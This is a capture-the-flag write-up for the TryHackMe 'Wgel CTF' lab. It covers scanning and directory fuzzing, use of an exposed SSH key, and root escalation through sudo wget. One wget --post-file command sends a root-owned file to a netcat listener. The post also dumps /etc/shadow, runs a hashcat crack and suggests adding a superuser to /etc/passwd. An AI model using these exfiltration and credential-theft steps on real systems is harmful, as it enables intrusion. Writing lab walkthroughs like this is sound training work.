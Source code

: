 ```yaml
---
title: "Wgel CTF"
date: 2022-09-20T16:00:31+01:00
draft: false
categories:
  - TryHackMe
---
```


{{< post-img src="wgel.png" alt="Wgel CTF" style="width:200px" >}}


## Enumeration

```nmap
PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 94:96:1b:66:80:1b:76:48:68:2d:14:b5:9a:01:aa:aa (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCpgV7/18RfM9BJUBOcZI/eIARrxAgEeD062pw9L24Ulo5LbBeuFIv7hfRWE/kWUWdqHf082nfWKImTAHVMCeJudQbKtL1SBJYwdNo6QCQyHkHXslVb9CV1Ck3wgcje8zLbrml7OYpwBlumLVo2StfonQUKjfsKHhR+idd3/P5V3abActQLU8zB0a4m3TbsrZ9Hhs/QIjgsEdPsQEjCzvPHhTQCEywIpd/GGDXqfNPB0Yl/dQghTALyvf71EtmaX/fsPYTiCGDQAOYy3RvOitHQCf4XVvqEsgzLnUbqISGugF8ajO5iiY2GiZUUWVn4MVV1jVhfQ0kC3ybNrQvaVcXd
|   256 18:f7:10:cc:5f:40:f6:cf:92:f8:69:16:e2:48:f4:38 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBDCxodQaK+2npyk3RZ1Z6S88i6lZp2kVWS6/f955mcgkYRrV1IMAVQ+jRd5sOKvoK8rflUPajKc9vY5Yhk2mPj8=
|   256 b9:0b:97:2e:45:9b:f3:2a:4b:11:c7:83:10:33:e0:ce (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJhXt+ZEjzJRbb2rVnXOzdp5kDKb11LfddnkcyURkYke
80/tcp open  http    syn-ack Apache httpd 2.4.18 ((Ubuntu))
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

```ffuf
.hta                    [Status: 403, Size: 277, Words: 20, Lines: 10]
.htaccess               [Status: 403, Size: 277, Words: 20, Lines: 10]
.htpasswd               [Status: 403, Size: 277, Words: 20, Lines: 10]
index.html              [Status: 200, Size: 11374, Words: 3512, Lines: 379]
server-status           [Status: 403, Size: 277, Words: 20, Lines: 10]
sitemap                 [Status: 301, Size: 314, Words: 20, Lines: 10]


/sitemap

.ssh                    [Status: 301, Size: 319, Words: 20, Lines: 10]
css                     [Status: 301, Size: 318, Words: 20, Lines: 10]
fonts                   [Status: 301, Size: 320, Words: 20, Lines: 10]
images                  [Status: 301, Size: 321, Words: 20, Lines: 10]
js                      [Status: 301, Size: 317, Words: 20, Lines: 10]
```

visit `sitemap` directory and get to "unapp" template page
fuzz again and in `.ssh` dir you have an `id_rsa` key

we know what to do

```bash
└──╼ $python2 /usr/share/john/ssh2john.py -w=/usr/share/wordlists/rockyou.txt id_rsa > id_john
id_rsa has no password!
```

wait what? I don't even know what user I should ssh as...let's go back
folks you remember how we insist all the time on ALWAYS checking source code?

It was in `/index.html`...yes that default index page for apache servers

```html
        <pre>
/etc/apache2/
|-- apache2.conf
|       `--  ports.conf
|-- mods-enabled
|       |-- *.load
|       `-- *.conf
|-- conf-enabled
|       `-- *.conf
|-- sites-enabled
|       `-- *.conf


 <!-- Jessie don't forget to udate the webiste -->
          </pre>

```

Now we ssh as `jessie`...Don't forget to fix permissions on the key

```
└──╼ $chmod 600 id_rsa

└──╼ $ssh jessie@10.10.92.232 -i id_rsa
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.15.0-45-generic i686)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage


8 packages can be updated.
8 updates are security updates.

jessie@CorpOne:~$
```

```
jessie@CorpOne:~/Documents$ cat user_flag.txt
jessie_flag_suddenly_appears
```
## Privilege Escalation

```
jessie@CorpOne:~/Documents$ sudo -l
Matching Defaults entries for jessie on CorpOne:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jessie may run the following commands on CorpOne:
    (ALL : ALL) ALL
    (root) NOPASSWD: /usr/bin/wget
```

wget unh? sounds easy

Notice how we could probably just `su` to root if we had jessie's sudo password

ok gtfobins say we can download root files...so if the root flag is in the same format as
user flag we get `/root/root_flag.txt`

You can use `find` to confirm that

set a netcat listener on your side

```
jessie@CorpOne:~$ sudo wget --post-file=/root/root_flag.txt 10.8.226.203:2311
--2021-11-27 15:27:02--  http://10.8.226.203:2311/
Connecting to 10.8.226.203:2311... connected.
HTTP request sent, awaiting response...
```

```
└──╼ $nc -lnvp 2311
listening on [any] 2311 ...
connect to [10.0.2.15] from (UNKNOWN) [10.0.2.2] 58212
POST / HTTP/1.1
User-Agent: Wget/1.17.1 (linux-gnu)
Accept: */*
Accept-Encoding: identity
Host: 10.8.226.203:2311
Connection: Keep-Alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 33

root_flag_goes_here
```

And we got root flag! at this point we could just call it a day...

But there is always another possibility

if we can use `wget` to read files we might as well read interresting ones

`/etc/shadow`
```
...
kernoops:*:17954:0:99999:7:::
pulse:*:17954:0:99999:7:::
rtkit:*:17954:0:99999:7:::
saned:*:17954:0:99999:7:::
usbmux:*:17954:0:99999:7:::
jessie:$6$0wv9XLy.$HxqSdXgk7JJ6n9oZ9Z52qxuGCdFqp0qI/9X.a4VRJt860njSusSuQ663bXfIV7y.ywZxeOinj4Mckj8/uvA7U.:18195:0:99999:7:::
sshd:*:18195:0:99999:7:::
```
ha! jessie's hash! those are crackable!

looks like sha-512crypt

```
└──╼ $hashcat -m 1800 '$6$0wv9XLy.$HxqSdXgk7JJ6n9oZ9Z52qxuGCdFqp0qI/9X.a4VRJt860njSusSuQ663bXfIV7y.ywZxeOinj4Mckj8/uvA7U.' /usr/share/wordlists/rockyou.txt
hashcat (v6.1.1) starting...

```
well its gonna take too long and I don't have that patience now

But feel free to explore. What I liked the most about this room was the multiple
ways to escalate

By example there is also a possibilty to add a new superuser to `/etc/passswd`

You download, modify and upload the file...

If you are curious enough you will find another way




























